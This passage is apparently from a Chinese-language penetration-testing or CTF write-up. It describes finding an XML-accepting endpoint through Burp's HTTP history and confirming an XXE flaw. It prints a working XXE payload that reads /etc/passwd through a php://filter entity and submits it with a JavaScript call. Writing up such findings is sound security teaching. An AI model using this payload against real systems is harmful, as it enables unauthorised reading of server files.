       由于找了一圈都没有找到信息，因此又在页面重新寻找线索，突然看到页面的首页显示着 burp，突然想到之前有师傅说过，burp 是安全人员最不能丢弃的工具，还有一个小 tips，之前我总喜欢使用拦截按钮去抓包，但是我现在喜欢看 HTTP history，这里面总会包含一些跳转的页面，值得分析。

![](https://mmbiz.qpic.cn/mmbiz_png/48oBicpxrQuViankqumF48hwm01s2mWhVkhN99XkBv19LF37o3VzeD6d7xnLweNBcfKTg0XEJZ0a2W8MgjLq7Zuw/640?wx_fmt=png)

然后打开 burp 将刚才的页面重新访问了一下，有了惊奇的发现

![](https://mmbiz.qpic.cn/mmbiz_png/48oBicpxrQuViankqumF48hwm01s2mWhVkAiabsFiaOM0gP57ZpbfI7ZG5icKdQ0Z2d8yQAjJysjgxH8O0LibgbmTqIQ/640?wx_fmt=png)

      点击提交数据时发现了一个 POST 请求，等等，这个路径好像有点熟悉，之前在 resource 的路径下看到过

![](https://mmbiz.qpic.cn/mmbiz_png/48oBicpxrQuViankqumF48hwm01s2mWhVkeokPXKZd6EFSWBMCv3nyjTx2Dmj4SaPgmg9Fakrjzz6CSxibGBbfKeA/640?wx_fmt=png)

这块还有 XML，不会有 XXE 吧

**0x06 发现 XXE 漏洞**

(1): 对 base64 进行解码

![](https://mmbiz.qpic.cn/mmbiz_png/48oBicpxrQuViankqumF48hwm01s2mWhVk0SU305043U7D7BAfeFJwN8IOwEKkDiaesPicCAbBrlr3EF8xOtbWicrpQ/640?wx_fmt=png)

(2): 读取 / etc/passwd 文件

*   第一种方法
    

能文件读取，如果不读取一下 / etc/passwd 文件真对不起 XXE 这个漏洞

```
var xml = `<?xml  version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
        <bugreport>
        <title>&xxe;</title>
        <cwe>admin</cwe>
        <cvss>admin</cvss>
        <reward>admin</reward>
        </bugreport>`
```

读取文件

```
returnSecret(btoa(xml));
```

![](https://mmbiz.qpic.cn/mmbiz_png/48oBicpxrQuViankqumF48hwm01s2mWhVkEj0AFW7uyj4WbsHicbgtjuT65TxqDWUqJ9zqA7PdwiaP0f6tpMm1YeAA/640?wx_fmt=png)

*   第二种方法
    

      也可以使用下面这种方法。打算在 mac 中使用 burp 抓包，但是由于我们启用的是 VPN，因此不能直接抓包，但是可以使用 ew 进行本地端口转发，然后开启 BURP 的 SOCKS 代理就可以抓包了

![](https://mmbiz.qpic.cn/mmbiz_png/48oBicpxrQuViankqumF48hwm01s2mWhVkkuY9byMtJN8jKxdYuAsOXZ2XsSvKnccpyGecInkM4QDkSYLcvU77ibQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/48oBicpxrQuViankqumF48hwm01s2mWhVkP66FjehiacUqsNxEVGmzE3q0EFZZFCRs7s5q6QK8iaveX1yc7bLAAZBg/640?wx_fmt=png)

(3): 进行 base64 解码
